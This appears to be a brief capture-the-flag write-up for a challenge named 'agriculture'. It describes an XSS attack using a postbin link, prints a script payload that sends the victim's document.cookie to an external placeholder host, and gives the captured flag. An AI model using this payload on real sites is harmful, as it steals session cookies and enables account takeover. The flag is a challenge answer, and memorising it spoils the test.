 ```yaml
---
title: agriculture
layout: post
---
```


<h2> Methodology </h2>
* XSS attack, with a link created from postbin
* \<script\> location.href = "<linke>?cookie=" + document.cookie; </script>
* flag: CTF{8aaa2f34b392b415601804c2f5f0f24e}
